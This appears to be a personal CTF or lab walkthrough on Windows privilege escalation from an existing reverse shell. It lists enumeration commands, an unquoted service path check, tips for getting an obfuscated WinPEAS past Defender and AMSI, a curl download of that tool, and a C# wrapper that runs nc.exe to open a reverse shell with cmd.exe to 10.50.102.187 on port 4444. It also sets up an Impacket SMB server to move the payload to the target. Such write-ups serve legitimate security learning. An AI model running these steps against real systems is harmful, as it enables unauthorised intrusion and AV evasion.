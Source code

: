 
We have a reverse shell but but but we don't have full access to the system which means that Thomas done security works on this so we have to see how to escalate the privileges from here. Will try to run Winpeas but it might get picked up the AV.

We have the winpeas copy with obfuscated and  
https://github.com/carlospolop/PEASS-ng

Things to keep in mind:
We have the manual enumeration option.
Defender will definitely pick the copy of winpeas but unlikely to catch .bat or obfuscated .exe
version.
But main thing we have to keep in mind to bypass is AMSI will alert defender if we try to 
load any PowerShell Priv-sec check scripts.

```
whoami /priv
```

```
whoami /groups
```
![[Pasted image 20240121004602.png]]

Start by looking for non-default services:
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
![[Pasted image 20240121004855.png]]
![[Pasted image 20240121005421.png]]

As you can see that `SystemExploreHelpService` does not have quotes in the path the rings a bell to the mind that _Unquoted Service Path_ attack and escalate from here.

```
sc qc SystemExplorerHelpService
```
![[Pasted image 20240121010030.png]]

The service is running as LocalSystem which means now we have to check if we have write permission or not
```
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```
![[Pasted image 20240121010229.png]]


This means that we can create our unquoted service path exploit, but we could also perform attacks such as DLL hijacking, or even outright replacing the service executable with a malicious binary.

```
curl http://10.50.102.187/winPEASx64_ofs.exe -o C:\xampp\htdocs\resources\uploads\sardarji-win.exe
```
![[Pasted image 20240121011328.png]]

Finally able to run the winpeas ofs file aka obfuscated file
![[Pasted image 20240121013007.png]]

As you can see there is lot of vulnerability's here due to not upto date patching and updating of files
![[Pasted image 20240121013107.png]]

This is what we have found earlier and verified by the user
![[Pasted image 20240121013347.png]]

![[Pasted image 20240121013522.png]]

Will make a file with name wrapper.cs
```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc.exe", "10.50.102.187 4444 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

```
gedit Wrapper.cs
```
```
mcs Wrapper.cs
```
![[Pasted image 20240121215236.png]]

Now will learn a new way to transfer the file for that will use Impacket toolkit
Impacket SMB server

```
python /opt/impacket-0.9.19/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
```


```
net use \\10.50.102.187\share /USER:user s3cureP@ssword
```

```
copy \\10.50.102.187\share\Wrapper.exe %TEMP%\wrapper-sardarji.exe
```
![[Pasted image 20240121215947.png]]

It is often useful to just leave an SMB server running in the background when working with Windows targets. We will use this server later, so let's leave it up for now.

```
net use \\10.50.102.187\share /del
```
![[Pasted image 20240121220114.png]]
But will delete it for now 

```
"%TEMP%\wrapper-sardarji.exe"
```
![[Pasted image 20240121220608.png]]

